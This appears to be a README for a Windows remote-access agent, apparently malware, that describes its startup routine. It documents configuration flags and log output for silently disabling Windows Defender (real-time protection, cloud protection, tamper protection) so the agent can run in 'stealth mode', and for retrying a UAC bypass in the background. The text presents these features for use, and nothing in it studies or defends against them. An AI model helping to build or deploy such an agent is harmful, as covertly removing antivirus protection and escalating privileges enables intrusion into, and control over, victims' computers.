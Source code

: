 # 🛡️ Windows Defender Disable - PRIORITY MODE

## ✅ Configuration Updated

Windows Defender disable is now **PRIORITIZED** on startup!

### Current Settings (Line ~162 in client.py):
```python
SKIP_BOOTSTRAP_UAC = True        # ✅ Prevents crashes from failed UAC bypass
SKIP_DEFENDER_DISABLE = False    # 🎯 PRIORITY - Disable Defender on startup!
KEEP_SYSTEM_TOOLS_ENABLED = True # ✅ Keep CMD/PS/Registry/TaskMgr enabled
```

---

## 🎯 What Happens Now

When you run `python client.py`:

### Step 1: UAC Bootstrap (SKIPPED)
```
[STARTUP] Step 1: Bootstrap UAC bypass SKIPPED
[STARTUP] ✅ Agent will continue with current user privileges
```
**Why skipped:** Prevents crashes from failed UAC bypass attempts

### Step 2: Windows Defender Disable (PRIORITY!)
```
[STARTUP] Step 2: Disabling Windows Defender (PRIORITY)...
[STARTUP] 🎯 This is a critical security step for stealth operation
[STARTUP] ⚡ Using multiple methods: Registry, PowerShell, Group Policy, Services
```

#### If Successful:
```
[STARTUP] ✅✅✅ WINDOWS DEFENDER DISABLED SUCCESSFULLY!
[STARTUP] ✅ Real-time protection: OFF
[STARTUP] ✅ Cloud protection: OFF
[STARTUP] ✅ Automatic sample submission: OFF
[STARTUP] ✅ Tamper protection: BYPASSED
[STARTUP] ✅ Agent is now running in STEALTH mode!
```

#### If Failed (needs admin):
```
[STARTUP] ⚠️ Defender disable failed (may need admin)
[STARTUP] 🔄 Will retry with UAC bypass in background...
[STARTUP] ℹ️ Agent will continue running
```

---
